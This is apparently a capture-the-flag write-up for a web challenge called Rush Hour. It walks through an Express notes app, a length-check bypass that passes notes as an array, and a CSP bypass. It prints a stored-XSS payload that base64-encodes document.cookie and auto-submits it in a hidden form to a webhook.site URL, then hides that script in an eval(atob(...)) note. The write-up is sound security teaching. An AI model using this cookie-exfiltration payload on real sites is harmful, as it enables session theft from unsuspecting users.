

Visiting the web UI, we are presented with xQc and the most glorious CSS:


Looking at the application source code:
```js
const express = require('express');
const { v4: uuidv4 } = require('uuid');
const path = require('path');
const cookiep = require('cookie-parser');
const bodyp = require('body-parser');

const fs = require('fs');

const redis = require('redis');
const admin = require('./admin.js');

const app = express();
const port = 3000;
const banned_fetch_dests = ['iframe', 'embed', 'object'];

const client = redis.createClient({
  'url': process.env.REDIS_URL
})
client.on('error', err => console.log('Redis Client Error', err));
client.connect();

app.use(cookiep());
app.use(bodyp.urlencoded())
app.use('/images', express.static('images'));

async function set_cache(key,val){
  return (await client.set(key,JSON.stringify(val), 'EX', 3600));
}

async function get_cache(key){
  return JSON.parse(await client.get(key));
}

app.get('/', async (req, res) => {
  let UID;
  if(!req.cookies || !req.cookies.user || !(await client.exists(req.cookies.user))){
    UID = uuidv4();
    await set_cache(UID,["This is my first note!"]);
    await set_cache(UID + "_cust",0);
    res.set({'Set-Cookie':`user=${UID}`});
  } else {
    UID = req.cookies.user;
  }
  res.redirect(`/user/${UID}`);
})

app.get('/user/:id',async (req,res)=>{
  if(!req.params || !(await client.exists(req.params.id))){

    return res.redirect('/')
  }

  let notes = await get_cache(req.params.id);

  if(req.params.id.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!");
  } else if (req.params.id.includes("admin") && req.ip == '::ffff:127.0.0.1' && !banned_fetch_dests.includes(req.headers['sec-fetch-dest'])) {
    res.cookie('supersecretstring', process.env.FLAG);
  }

  res.setHeader('Content-Type', 'text/html');

  const customers = await get_cache(req.params.id + "_cust") + 1;
  await set_cache(req.params.id + "_cust", customers);

  let htmlContent;
  fs.readFile(path.join(__dirname,'public','index.html'), (err, data) => {
      if(err) {
        res.send("Problem creating HTML");
      } else {
        htmlContent = data.toString();

        let content = '<div id="notes">';

        notes.forEach(note => {
          content += "<li>";
          content += note;
          content += "</li>";
        })

        content += '</div>';
        htmlContent = htmlContent.replace('<div id="notes"> </div>', content);
        htmlContent = htmlContent.replace('<div id="customers"> </div>', `<div id="customers"> Customer Count: ${customers}</div>`);

        res.send(htmlContent);
      }
  });
})

app.get('/report/:id',async (req,res)=>{
  admin_uid = uuidv4() + "-admin";
  res.send("I'm reviewing your notes! My ID is " + admin_uid);
  await set_cache(admin_uid,["Remember to rember not to forgor my notes"]);
  try {
    await admin(admin_uid, req.params.id);
  } catch (e) {
    res.send("Admin ran into issues!");
  }
})

app.get('/clear',async (req,res)=>{
  if(!req.cookies || !req.cookies.user || !(await client.exists(req.cookies.user))){
    return res.send("Hmm are you even a user? Go to /");
  }

  if(req.cookies.user && req.cookies.user.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!")
  }

  await set_cache(req.cookies.user,[]);
  await set_cache(req.cookies.user + "_cust", 0);

  return res.redirect(`/user/${req.cookies.user}`);
})

app.get('/create',async (req,res)=>{
  if(!req.cookies || !req.cookies.user || !(await client.exists(req.cookies.user))){
    return res.send("Hmm are you even a user? Go to /");
  }

  if(!req.query.note){
    return res.send("Did not get a note")
  }

  if(req.cookies.user.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!")
  } else if(!req.cookies.user.includes("admin") && req.ip == '::ffff:127.0.0.1') {
    return res.send("Admins are not allowed to doctor user notes!");
  }

  // I get to have longer notes!
  if(req.ip === '::ffff:127.0.0.1'){
    if(req.query.note.length > 42) {
      return res.send("Invalid note length!")
    }
  } else {
    if(req.query.note.length > 16) {
      return res.send("Invalid note length!")
    }
  }

  let user_note = await get_cache(req.cookies.user);

  if(!user_note) {
    return res.send("Problem while fetching notes! Try something else perhaps?")
  }

  user_note.push(req.query.note);

  await set_cache(req.cookies.user,user_note);

  return res.send("Note uploaded!")
})

app.post('/create',async (req,res)=>{
  if(!req.cookies || !req.cookies.user || !(client.exists(req.cookies.user))){
    return res.send("Hmm are you even a user? Go to /");
  }
  if(!req.body.note){
    return res.send("Did not get a note body")
  }

  if(req.cookies.user.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!")
  } else if(!req.cookies.user.includes("admin") && req.ip == '::ffff:127.0.0.1') {
    return res.send("Admins are not allowed to doctor user notes!");
  }

  // I get to have longer notes!
  if(req.ip === '::ffff:127.0.0.1'){
    if(req.body.note.length > 42) {
      return res.send("Invalid note length!")
    }
  } else {
    if(req.body.note.length > 16) {
      return res.send("Invalid note length!")
    }
  }

  let user_note = await get_cache(req.cookies.user);

  if(!user_note) {
    return res.send("Problem while fetching notes! Try something else perhaps?")
  }

  user_note.push(req.body.note);
  await set_cache(req.cookies.user,user_note);
  return res.redirect(`/user/${req.cookies.user}`);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

## Initial Observations
- Using express for a webserver, also using `bodyp.urlencoded()` for parsing.
- Aim is to get the admin user to visit your note and steal cookies
- The `index.html` has a CSP: `defaul-src 'none'; connect-src 'none';`

The general user process is as follows:


The general flow (if not clear from the diagram):
1. The user gets a cookie assigned from the server (a UUID) and has a first note and the customer count is assigned one.
2. The user (if they exist) is redirected to their home page and their notes are rendered (without sanitisation).

This sounds like a recipe for XSS, but not so fast!

Looking a bit closer at the `/create` endpoint used to create notes:
```js
if(req.ip === '::ffff:127.0.0.1'){
    if(req.body.note.length > 42) {
      return res.send("Invalid note length!")
    }
  } else {
    if(req.body.note.length > 16) {
      return res.send("Invalid note length!")
    }
}
```

We can't notes longer than 16 characters unless we are from localhost... (scam)

## XSS

Express from 4.x onwards defaults to `queryparser` which allows for array objects to be passed, more can be read [here](https://github.com/expressjs/express/issues/3039).

This same issue is seen in [Auror's Archive](25-htbcyberapocalypse-aurorsarchive).

This allows for a length bypass, as the array itself has the `length` variable storing the amount of objects, rather than the string length.

This allows a bypass to create a note of any length.

```
POST /create HTTP/1.1
Host: rush-hour.ctf.umasscybersec.org
...

note[]=hellolookatthisreallylongstringthatisveryfair
```


Perfect!

## Not quite yet, CSP bypass

The issue now is that pesky CSP (`defaul-src 'none'; connect-src 'none';`). Due to the `connect-src` being `none` we cannot use the typical ``. We need to find another way.

The method that ended up working was a long segment of JS to create an iframe:
```js
setTimeout(() => {
  const img = document.createElement('img');
  img.src = '/user/' + location.pathname.split('/')[2] + '-admin';
  img.style.display = 'none';
  
  img.onload = img.onerror = function() {
    setTimeout(() => {
      const form = document.createElement('form');
      form.method = 'GET';
      form.action = 'https://webhook.site/.../';
      const input = document.createElement('input');
      input.type = 'hidden';
      input.name = 'note[]';
      input.value = btoa(document.cookie);
      
      form.appendChild(input);
      form.style.display = 'none';
      document.body.appendChild(form);
      form.submit();
    }, 10000);
  };
  
  document.body.appendChild(img);
}, 5000);
```

The idea in the JS was as follows:
- Create an ``, this will load the admin page and wait for it to either load successfully or fail.
- Once that had completed, a `<form>` would be created and setup a `GET` request to our webhook that contains the cookie contents base64 encoded.
- Once made, it was appended to the DOM and they submitted automatically. Exfiltrating the cookies!

## Putting it all together

The entire JS block was base64 encoded then dropped into an eval to be set to the note:
```html
<script>eval(atob(`c2V0VGltZW91dCgoKSA9PiB7...c3RhcnRpbmc=`))</script>
```

The note was then created:
```
POST /create HTTP/1.1
Host: rush-hour.ctf.umasscybersec.org
...

note[]=%3Cscript%3Eeval%28atob%28%60c2V0VGltZW...bmc%3D%60%29%29%3C%2Fscript%3E
```

Once the admin was sent to the post, the webhook received a response:


Decoding it with CyberChef gave us the flag!

Flag: `UMASS{tH3_cl053Rz_@re_n0_m@tcH}`